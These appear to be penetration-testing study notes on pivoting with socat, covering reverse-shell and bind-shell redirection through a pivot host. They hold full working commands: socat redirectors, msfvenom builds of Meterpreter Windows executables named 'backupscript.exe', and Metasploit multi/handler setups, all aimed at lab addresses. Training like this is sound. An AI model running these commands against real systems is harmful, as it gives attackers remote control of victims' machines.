#### Upload and execute the payload on the Windows host to establish the Meterpreter Session


## Socat Redirection with a Reverse Shell

#### Starting Socat Listener on Pivot Host
```Shell
socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80
```

#### Creating the Windows Payload
```Shell
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=8080
```

#### MSF - Configuring & Starting the multi/handler
```Shell
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
set lhost 0.0.0.0
set lport 80
run
```

#### Run the payload on the Windows host to establish meterpreter session


## Socat Redirection with a Bind Shell

![[Pasted image 20230309123153.png]]

#### Creating the Windows Payload
```Shell
msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupscript.exe LPORT=8443
```

#### Starting Socat Bind Shell Listener on Pivot Host
```Shell
socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443
```

#### MSF - Configuring & Starting the Bind multi/handler
```Shell
use exploit/multi/handler
set payload windows/x64/meterpreter/bind_tcp
set RHOST 10.129.202.64
set LPORT 8080
run
```
